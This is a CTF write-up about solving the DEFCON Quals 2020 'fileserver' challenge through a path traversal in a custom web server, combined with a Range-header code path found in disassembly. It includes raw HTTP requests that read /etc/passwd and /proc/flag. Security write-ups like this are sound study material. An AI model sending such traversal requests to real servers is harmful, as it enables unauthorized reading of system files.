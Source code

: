## Pwning a DEFCON Quals binary without pwning it.

Story time, before getting to the write up. I played the pwnables of DEFCON Quals 2020, mainly because it's very fun, and also because I wanted to see what the content would look like, given the remote nature of the contest.

I ended up pwning all three of them, and the writeups can be found [here](https://github.com/naliferopoulos/defcon-quals-2020). Err, not exactly though. I managed to get the last flag, *fileserver*, without pwning the binary whatsoever and that ended up in a funny chat with the DEFCON staff, as well as a prize award! Thanks guys! :)

### DEFCON Qualifiers - Fileserver

For this one, we were given a domain name and a port, but no binary. Behind the remote port there was a webserver, which seemed custom made, and among other things, allowed us to download a compiled copy of itself (we figured that out later on) targeted against 32-bit Linux. 

Evidently, at the time, I though that I was supposed to pwn the binary in order to win. The challenge, just like the previous ones, instructed us to find the flag at */proc/flag*, a fact I did not mention for the previous ones, but which plays an important role for this one.

On to the write up though.

#### Huh?

At first glance, the binary looks like this:

```bash
➜  fileserver checksec target
[*] '/vagrant/DEFCON/fileserver/target'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Also, readelf shows the following, as far as symbols are concerned (basic *snip snip* has occured):

```bash
➜  fileserver readelf -s target | grep -v "@GLIB"

Symbol table '.symtab' contains 127 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    38: 08048cda   218 FUNC    LOCAL  DEFAULT   14 rio_read
    39: 08049320   110 FUNC    LOCAL  DEFAULT   14 get_mime_type
    56: 0804972f    98 FUNC    GLOBAL DEFAULT   14 log_access
    58: 0804c0e0   112 OBJECT  GLOBAL DEFAULT   25 meme_types
    67: 08049498   154 FUNC    GLOBAL DEFAULT   14 url_decode
    69: 08049c5f   553 FUNC    GLOBAL DEFAULT   14 process
    74: 0804c150     4 OBJECT  GLOBAL DEFAULT   25 default_mime_type
    85: 08048f4d   979 FUNC    GLOBAL DEFAULT   14 handle_directory_request
    91: 08048db4   137 FUNC    GLOBAL DEFAULT   14 rio_readlineb
    95: 08049b8e   209 FUNC    GLOBAL DEFAULT   14 display_admin_page
   103: 08049e88   371 FUNC    GLOBAL DEFAULT   14 main
   113: 08048c59   129 FUNC    GLOBAL DEFAULT   14 writen
   114: 08049532   509 FUNC    GLOBAL DEFAULT   14 parse_request
   117: 08048c2b    46 FUNC    GLOBAL DEFAULT   14 rio_readinitb
   120: 0804938e   266 FUNC    GLOBAL DEFAULT   14 open_listenfd
   122: 080498b7   727 FUNC    GLOBAL DEFAULT   14 serve_static
   126: 08049791   294 FUNC    GLOBAL DEFAULT   14 client_error
```

The binary is fully symbolicated, but it still contains a bunch of functionality, so we are going to have to take a deeper look at this.

Before doing so, I decided to take a look at the fileserver instance running on the remote host, in order to get a better feel for the target before jumping into static analysis.

That is when I noticed a path traversal vulnerability. By issuing the following HTTP request:

```
➜  fileserver

GET /../../../../../../etc/passwd HTTP/1.0
```

I received the following response:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 1561
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
statd:x:108:65534::/var/lib/nfs:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:900:900:vagrant,,,:/home/vagrant:/usr/bin/zsh
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
```

That is when I got excited, and tried it against the remote host, without any luck. I could only reproduce it locally. While the vulnerability was present, I could not force the server to return the file to me. I could only list directories using the traversal. Bummer :/

I then scrapped the idea of dynamically getting a feel of the target, considering that the challenge category was pwning, and loaded the binary into IDA. After browsing around the disassembly for a bit, the following caught my attention. During *parse_request*, the binary treated incoming requests differently, based on the presence of a Range HTTP Request Header, or more accurately, **"Ran"**.

```
.text:080495BA                 sub     esp, 4
.text:080495BD                 push    400h
.text:080495C2                 lea     eax, [ebp+s1]
.text:080495C8                 push    eax
.text:080495C9                 lea     eax, [ebp+var_420]
.text:080495CF                 push    eax
.text:080495D0                 call    rio_readlineb
.text:080495D5                 add     esp, 10h
.text:080495D8                 movzx   eax, [ebp+s1]
.text:080495DF                 cmp     al, 52h ; 'R'
.text:080495E1                 jnz     short loc_8049644
.text:080495E3                 movzx   eax, [ebp+var_81F]
.text:080495EA                 cmp     al, 61h ; 'a'
.text:080495EC                 jnz     short loc_8049644
.text:080495EE                 movzx   eax, [ebp+var_81E]
.text:080495F5                 cmp     al, 6Eh ; 'n'
.text:080495F7                 jnz     short loc_8049644
.text:080495F9                 mov     eax, [ebp+arg_4]
.text:080495FC                 lea     edx, [eax+204h]
.text:08049602                 mov     eax, [ebp+arg_4]
.text:08049605                 add     eax, 200h
.text:0804960A                 push    edx
.text:0804960B                 push    eax
.text:0804960C                 lea     eax, (aRangeBytesLuLu - 804C000h)[ebx] ; "Range: bytes=%lu-%lu"
.text:08049612                 push    eax
.text:08049613                 lea     eax, [ebp+s1]
.text:08049619                 push    eax
.text:0804961A                 call    ___isoc99_sscanf
```

We can follow the bahavioral change down to **serve_static**, which in the case of a Range header present, *snprintf()'s* the selected part of the file to the response buffer, while the other code path simply skips over it in the case of a file. After all, the juicy part of the (intened solution to the) challenge was getting to the admin page (*page* as in *directory*).

Bingo! While the remote instance won't let us use the directory traversal to fetch files (this is how it was intended to be played), by supplying a range header, we could get it to do so!

```
GET /../../../../../proc/flag HTTP/1.0
Range: bytes=0-90
```

Aaaaaaand:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: **redacted**
Cache-Control: no-cache
Accept-Ranges: bytes

**redacted**
```

There it is, we just got the flag using more web stuff than pwning stuff! I know that's a broad definition of what "web stuff" and "pwning stuff" is, but I contacted the DEFCON team afterwards and they informed me that this was not the inteded solution. 

Considering this, I would far more have loved to actually pwn the challenge, as it is 400pts DEFCON Quals one, but nonetheless, the hax were for once *pretty-cool-hax™*.
